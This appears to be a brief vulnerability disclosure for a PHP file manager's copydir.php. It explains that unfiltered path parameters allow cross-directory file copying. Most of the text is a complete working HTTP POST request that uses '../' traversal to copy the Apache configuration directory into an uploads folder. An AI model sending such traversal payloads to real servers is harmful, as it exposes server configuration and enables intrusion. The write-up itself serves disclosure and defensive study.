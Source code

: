 ![5.png](./img/5.png)

Line 52 calls the copyDir function:

![6.png](./img/6.png)

Line 37 creates a new directory, line 44 copies the files in the source directory to the new directory, and does not filter the values of $newPath and $path, resulting in a file copy across directories.

You can copy the directory /conf of the apache configuration file to /fileman/conf by requesting the following:
```
POST /fileman/php/copydir.php HTTP/1.1
Host: 127.0.0.1:8003
Connection: keep-alive
Content-Length: 133
Pragma: no-cache
Cache-Control: no-cache
Accept: application/json, text/javascript, */*; q=0.01
Origin: http://127.0.0.1:8003
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.26 Safari/537.36 Core/1.63.6788.400 QQBrowser/10.3.2864.400
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
DNT: 1
Referer: http://127.0.0.1:8003/fileman/
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=; roxyld=%2Ffileman%2FUploads; roxyview=list

d=%2Ffileman%2FUploads%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Ftong%2Fphpstudy%2FPHPTutorial%2FApache%2Fconf&n=%2Ffileman%2FUploads%2F..
```
![7.png](./img/7.png)